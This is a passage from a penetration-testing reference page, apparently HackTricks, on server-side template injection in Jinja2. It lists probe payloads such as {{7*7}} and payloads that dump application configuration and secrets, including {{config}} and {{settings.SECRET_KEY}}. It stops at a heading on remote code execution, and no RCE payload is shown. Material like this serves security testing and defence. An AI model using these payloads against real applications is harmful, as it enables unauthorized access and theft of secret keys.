 [](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

Jinja2 (Python)

[Official website](http://jinja.pocoo.org/)

> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

- `{{7*7}} = Error`
 
- `${7*7} = ${7*7}`
 
- `{{foobar}} Nothing`
 
- `{{4*4}}[[5*5]]`
 
- `{{7*'7'}} = 7777777`
 
- `{{config}}`
 
- `{{config.items()}}`
 
- `{{settings.SECRET_KEY}}`
 
- `{{settings}}`
 
- `<div data-gb-custom-block data-tag="debug"></div>`
 



```
{% debug %}






{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```

**Jinja2 - Template format**



```
{% extends "layout.html" %}
{% block body %}
 <ul>
 {% for user in users %}
 <li><a href="{{ user.url }}">{{ user.username }}</a></li>
 {% endfor %}
 </ul>
{% endblock %}

```

[**RCE not dependant from**](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) `__builtins__`:
